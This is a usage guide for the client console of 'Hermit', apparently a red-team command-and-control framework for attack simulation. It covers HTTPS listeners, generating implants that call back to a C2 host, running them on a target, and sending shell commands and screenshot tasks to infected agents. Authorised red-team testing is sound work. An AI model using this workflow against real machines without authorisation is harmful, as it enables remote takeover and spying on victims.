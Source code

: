+++
title = "C2 Client"
date = 2024-01-02
[extra]
toc=true
+++

## Run (Connect to the C2 Server)

At first, make sure that [the C2 server](./c2-server) has already started. It's running on the port `9999` by default.  
Now run the `client` command to connect the C2 server.  

```sh
hermit client -H my-c2-server.com -P 9999
```

After connecting, the client console will start.

<br />

## Help

```sh
Hermit $ help
```

<br />

## Listener

### 1. Add New Listener

Hermit currently supports the `HTTPS` listener only.  
You need to specify the domains (`-d`) for HTTPS self-signed certificates.

```sh
Hermit $ listener add -d localhost,my-c2-server.com
```

Once the listener is added successfully, you can see it with the `listeners` (or `listener list`) command.

```sh
Hermit $ listeners
```

### 2. Start Listener

After adding a listener as the previous section, you can start it by the `listener start <ID or Name>` command.

```sh
Hermit $ listener start 1
```

### 3. Stop Listener

```sh
Hermit $ listener stop 1
```

### 4. Delete Listener

Listeners that you don't plan to use can be deleted using the `delete` command.

```sh
Hermit $ listener delete 1
```

If you want to delete all listeners, specify `all` to the second argument as below:

```sh
Hermit $ listener delete all
```

<br />

## Implant

### 1. Generate Implant

You can generate implants with `implant gen` command with specifying the listener URL (`-u`) that you've started the previous section. The agent will connect to this listener URL.

```sh
Hermit $ implant gen -u https://my-c2-server.com:4443/
```

After generating, you can see the information by `implants` (or `implant list`) command.

```sh
Hermit $ implants
```

Now you need to transfer this implant to the target computer and execute it.

### 2. Delete Implant

```sh
Hermit $ implant delete 1
```

If you want to delete all implants, specify `all` to the second argument as below:

```sh
Hermit $ implant delete all
```

<br />

## Agent

When the implant is executed, the agent will start and attempt to connect to your C2 server's listener.  
If it succeeds, the agent has been registered in the C2 server. You can check if the agent has been registered correctly with the `agents` (or `agent list`) command.

```sh
Hermit $ agents
```

### 1. Interact with Agent

To interact with the agent for the attack simulation, you can run the `agent use <ID or Name>` command.

```sh
Hermit $ agent use 1
```

This command switches to the agent mode.

### 2. Agent Mode: Send Tasks

After entering the agent mode, you can simulate various attack methods e.g. shell command, screenshot, etc. Other commands are currently under development.

- **Shell Command**

```sh
Hermit [agent: agent_0123] $ shell whoami
```

- **Screenshot**

```sh
Hermit [agetn: agent_0123] $ screenshot
```

### 3. Quit Agent Mode

To quit the agent mode and return the home console, run the `exit` command.

```sh
Hermit [agetn: agent_0123] $ exit
```

### 4. Delete Agent

```sh
Hermit $ agent delete 1
```

If you want to delete all agents, specify `all` to the second argument as below:

```sh
Hermit $ agent delete all
```

<br />

## Exit

To quit the client console, run the `exit` command.

```sh
Hermit $ exit
```